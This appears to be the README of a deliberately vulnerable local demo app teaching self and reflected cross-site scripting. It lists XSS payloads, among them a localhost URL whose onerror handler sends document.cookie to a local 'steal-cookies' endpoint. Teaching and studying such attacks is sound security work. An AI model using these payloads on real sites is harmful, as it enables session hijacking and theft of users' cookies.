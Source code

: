 ## Vulnerable Services

### Self XSS

Try some inputs inputs in the first field:

- `<strong>cat`
- `<img src="doesnt exist" onerror="alert('I just executed some JavaScript, yikes!')">`

### Reflected XSS

Here's an example some URL which would be pretty naughty

- <http://localhost:8080/private/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22alert(%27I%20just%20executed%20some%20JavaScript%20without%20any%20human%20interaction%20on%20the%20page!%27)%22%3E&autoSubmit=true>
- <http://localhost:8080/private/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22fetch(`http://localhost:1337/steal-cookies?cookie=${encodeURIComponent(document.cookie)}`)%22%3E&autoSubmit=true>
